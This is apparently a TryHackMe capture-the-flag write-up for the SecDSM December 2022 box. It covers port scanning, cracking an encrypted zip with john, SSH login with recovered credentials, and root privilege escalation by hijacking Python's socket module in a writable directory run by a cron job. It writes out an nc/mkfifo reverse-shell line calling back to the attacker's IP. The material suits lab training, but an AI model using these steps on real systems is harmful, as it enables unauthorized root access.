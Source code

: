 # THM SecDSM-Dec22-MiniCTF Writeup

​		22<sup>nd</sup> December 2022
​		[Box Link](https://tryhackme.com/jr/secdsmdecember22minictf)
 
## Skills Needed or Learned
1. Web Service Enumeration.
1. Cracking an encrypted zip file.
1. Linux Privesc with Permission Misconfiguration


### Description:

This machine...

### Difficulty:

`easy`

# Hosts File

`sudo nano /etc/hosts`

add a line with the remote IP and the dns entry


`<IP> secdsm.thm`

# Enumeration

Start with basic and advanced NMAP scans on the box.

`nmap -v secdsm.thm`
![image](https://user-images.githubusercontent.com/43767555/203445905-4d04de66-d01c-48f0-9407-229137a38694.png)

`nmap -p 22,80 -A -sC -sV -v secdsm.thm`
![image],(https://user-images.githubusercontent.com/43767555/203445915-0b21ff59-a63c-4ecb-8c61-27616b5fb5ab.png)

HTTP and SSH are open. HTTP is always a pretty interesting place to start.

After spending some time on the site, a lot of links don't go anywhere but one does go to a broken link which is very interesting.

![image](https://user-images.githubusercontent.com/43767555/203446098-4fd83d1b-62b0-48ab-aa63-518c8a3758bf.png)
![image](https://user-images.githubusercontent.com/43767555/203446104-ca0609f7-04f1-4e04-a431-314c465fe0e6.png)

I checked the link in burp with the same results.

There are two routes here.
1. Edit the hosts file to match the url in the broken link
1. Edit the link to point to the machiine's known IP.

![image](https://user-images.githubusercontent.com/43767555/203446466-85f0dc87-dd5d-4d88-81d1-b8de05635a98.png)

This got me a download for the file.

![image](https://user-images.githubusercontent.com/43767555/203446486-7b086bfa-12b4-49fa-822a-1b8f81d5d705.png)

# Foothold

The file is encrypted but it seems to hold something called backup.txt.

![image](https://user-images.githubusercontent.com/43767555/203446633-38e82173-bffe-4005-8558-a5e61838193f.png)
![image](https://user-images.githubusercontent.com/43767555/203446679-2d9c099d-892a-4ede-80be-2de595097022.png)

This command will only work out of the box on later versions of Kali. You can download or search for this on your machine as well.

`zip2john temp.zip > hash`
![image](https://user-images.githubusercontent.com/43767555/203447619-fba66001-9dea-459e-b14c-ff1b3813db41.png)

Next is to crack this hash with john.

`john hash --wordlist=/usr/share/wordlist/rockyou.txt`

![image](https://user-images.githubusercontent.com/43767555/203447633-1cc3421b-1cd5-427a-8e26-46856d178fff.png)

This crack was succesful!

`unzip temp.zip`
`<password>`

![image](https://user-images.githubusercontent.com/43767555/203447877-2fb0f021-cce0-4554-bd42-55ef4394cd2f.png)
![image](https://user-images.githubusercontent.com/43767555/203447889-209d36d1-c1a6-4e88-8e9f-892d19423b55.png)

This file contained what looks like user creds that we can try on the open SSH port.

Back on the Attack machine, attempt to login to the.

`ssh kinder@secdsm.thm`

![image](https://user-images.githubusercontent.com/43767555/203448008-5ecb6140-d47d-4a73-84c6-7ffdeab0f424.png)

Here we can see the user.txt file, first flag down!

![image](https://user-images.githubusercontent.com/43767555/203448073-aaf7cf10-878b-428f-9e19-0df367aa9904.png)

# Privilege Escalation

The next part comes with Linux Privesc enumeration but we need to look for Cron Jobs or follow the proccesses on the machine to see what's happeneing behind the scenes.

On the attackbox get pspy downloaded from github.

`wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s`

From here we can host a temp pthon webservber to move it onto the victim machine.

`sudo python3 -m http.server 80`

![image](https://user-images.githubusercontent.com/43767555/203450435-ac957f3b-9332-422e-b93d-2fefde30d730.png)

Download it onto the victim machine.

`wget http://192.168.59.131/pspy64s && chmod 777 pspy64s`

![image](https://user-images.githubusercontent.com/43767555/203450549-725b9440-c1fe-4192-888b-ea5ce0a8cbda.png)
![image](https://user-images.githubusercontent.com/43767555/203450555-0e39858b-fbb9-4766-89f5-fe40d1b6c38f.png)

This succesfully exposed a root cron job that we couldn't see from the public /etc/crontab file.

![image](https://user-images.githubusercontent.com/43767555/203450599-59ec8156-ef63-4932-9c74-2ac168593ada.png)

This shows some interest to this globally writeable directory inside of /opt/

![image](https://user-images.githubusercontent.com/43767555/203450667-94dad0e8-3cbb-4ffc-a3e8-a6d7ff62b0c6.png)

updog.py is not globally writeable though.

I wonder what updog.py is?

`whatis updog.py`

![image](https://user-images.githubusercontent.com/43767555/203450755-e9cbb752-7951-4cdc-80f9-095713add631.png)

Oh wait, wrong command!

![image](https://user-images.githubusercontent.com/43767555/203450769-ef6eb46f-ea13-4040-83a8-2f2791c97cab.png)

It looks like this script is checking if port 80 is online on localhost. If it isn't then it restarts the apache service. This is all pretty simple but on it's own not exploitable. What is exploitable is the writeable directory the file lives in.

Python imports modules in a specific order and iut is possible to exploit this given the right parameters.
1.    The current directory (same directory as script doing the importing).
1.    The library of standard modules.
1.    The paths defined in sys.path.*

[Source](https://www.webucator.com/article/how-python-finds-imported-modules)

Let's pull in the real sockets.py file into the directory and modify it to exploit this configuration vulnerability on the machine.

`find / -name socket.py 2>/dev/null`
`cp /usr/lib/python3.10/socket.py .`


![image](https://user-images.githubusercontent.com/43767555/203451434-4f756d72-8933-4466-a17f-fe6a1e57ae2d.png)

With the file succesfully pulled into the directory we can now build a reverse shell back to the attackbox.

[Revshells.com](https://revshells.com)

![image](https://user-images.githubusercontent.com/43767555/203451481-0b4b7008-3976-4d6e-97f6-9d338cc80362.png)

I checked for nc before building the shell.

`which nc`

![image](https://user-images.githubusercontent.com/43767555/203454997-2c92d5d6-9325-4a98-9e23-89e9b2c34734.png)


`echo 'os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.59.131 80 >/tmp/f")' >> socket.py && tail -n 10 socket.py`

![image](https://user-images.githubusercontent.com/43767555/203455333-7cacc5bd-72e6-4a22-ad10-70cb465abe84.png)

This pops a root shell on the attackbox where the root flag can be grabbed to finish!

![image](https://user-images.githubusercontent.com/43767555/203455377-9af29b7d-8ad6-4988-97ce-8573f8344412.png)
